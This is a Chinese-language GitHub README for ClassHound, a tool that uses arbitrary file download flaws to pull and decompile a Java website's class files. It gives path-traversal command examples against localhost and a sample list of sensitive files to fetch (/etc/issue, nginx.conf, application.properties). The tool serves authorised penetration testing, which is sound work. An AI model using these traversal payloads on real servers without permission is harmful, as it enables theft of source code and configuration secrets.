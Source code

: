 # ClassHound
**利用任意文件下载漏洞自动循环下载并反编译class文件获得网站源码**



### 下载

```bash
git clone --depth=1 --branch=master https://www.github.com/LandGrey/ClassHound.git
cd ClassHound/
pip install requirements.txt
chmod +x classhound.py
python classhound.py -h
```



### 使用

```markdown
1. -u -k
# 指定可正常下载的目标链接, 并默认使用 '#' 字符标记任意文件下载漏洞的文件位置; 
# -k 参数指定下载失败页面会出现的关键字，用来标识是否下载成功
python classhound.py -u "http://127.0.0.1/download.jsp?path=images/#1.png#" -k "404 not found"

2. -p -dc
# 使用 POST 请求下载文件，并指定标记符为 '##'
python classhound.py -u "http://127.0.0.1/download.jsp" -dc "##" --post "path=##1.png##"

3. -tc -cc
# 当程序自动识别不出漏洞时,如果明确知道遍历文件的字符，可用 -tc 参数指定
# 如果明确知道下载 WEB-INF/web.xml 文件所需要的遍历文件字符数量的话，可同时用 -cc 参数指定
# 例如当能够使用 http://127.0.0.1/download.jsp?path=../../../WEB-INF/web.xml 下载文件时:
python classhound.py -u "http://127.0.0.1/download.jsp?path=#1.png#" -tc "../" -cc 3

4. -bp
# 当跳目录后发现 /WEB-INF/web.xml 前面还要有前缀路径才能下载任意文件时，可用 -bp 参数指定
# 当网站目录结构是 /opt/tomcat/webapps/cms/WEB-INF/web.xml 时，可视情况修改为 opt/tomcat/webapps/cms/

5. -f --auto
# 如果想顺带下载些其他已知文件, 可将服务器文件的相对路径一行一个写入文件中, 然后用 -f 参数指定文件
# 相对路径的文件下载可能需要不一样数量的遍历字符, 可以启用 -a/--auto 参数，程序会尝试不同数量的遍历字符
# 例如创建文件 download.txt，内如如下:
/etc/issue
install/index.jsp
/etc/nginx/nginx.conf
application.properties
ROOT/META-INF/MANIFEST.MF
WEB-INF/classes/me/landgrey/config/config.class


# 然后使用命令
python classhound.py -u "http://127.0.0.1/download.jsp?path=images/#1.png#" -k "404 not found" -f download.txt --auto

5. 其余参数
-hh		增加请求时的 HTTP Header
-hp		设置 HTTP/HTTPS 代理
-mc		设置自动探测时尝试的最大遍历字符数量, 默认 10
```



### 效果图

![GIF.gif](https://raw.githubusercontent.com/LandGrey/ClassHound/master/GIF.gif)



### 注意事项

```
1. 程序兼容 python 2.7+ 和 3.4+, 运行前先安装 requirements.txt 中的python模块, 并安装配置好 java 环境变量
2. 使用过程中的 bug 和优化建议欢迎提 issue
3. 程序仅作为安全研究和授权测试使用, 开发人员对因误用和滥用该程序造成的一切损害概不负责
```

### 依赖开源程序
反编译工具 [https://github.com/leibnitz27/cfr](https://github.com/leibnitz27/cfr)
